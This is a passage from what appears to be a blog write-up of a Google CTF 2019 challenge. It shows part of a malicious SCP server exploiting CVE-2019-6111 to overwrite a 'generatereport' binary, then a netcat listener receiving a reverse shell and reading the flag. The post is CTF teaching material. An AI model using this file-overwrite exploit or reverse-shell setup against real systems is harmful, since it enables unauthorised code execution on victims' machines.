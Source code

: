 ~~~python
with open('sploit', 'rb') as f:
    payload = f.read()

# ...

# This is CVE-2019-6111: whatever file the client requested, we send
# them 'exploit.txt' instead.
logging.info('Sending malicious file "generatereport to channel %d',
    channel.get_id())
command = 'C0664 {} generatereport\n'.format(len(payload)).encode('ascii')
~~~

The only thing left to do was to set the listener and cross our fingers:

~~~
$ nc -lvvp 2223
Listening on [0.0.0.0] (family 0, port 2223)
Connection from 170.101.195.35.bc.googleusercontent.com 34972 received!
id
uid=1337(user) gid=1337(user) groups=1337(user)

cat flag.txt
CTF{0verwr1teTh3Night}
~~~

I have to admit that, for the first 10 seconds, I couldn't believe it worked.

## Conclusion

This was not only a really fun challenge, but one of the few we managed to solve during the CTF, so it has a special place in our hearts. I'm aware we kind of stumbled on the solution, but we also paid the price with frustration and hours of tinkering, so there's that. The "overwrite the `generatereport` binary" part was a quite wild thought and seeing it actually working was amazing. Even thought we didn't get that many flags during the competition (and didn't get even near the top 10 teams that got qualified for the finals), this CTF weekend was a really great experience. I can't wait for the 2020 edition to try and improve our marks.

![Solved](/images/googlectf2019_bobneedsafile_solved.png)

Thanks for reading!

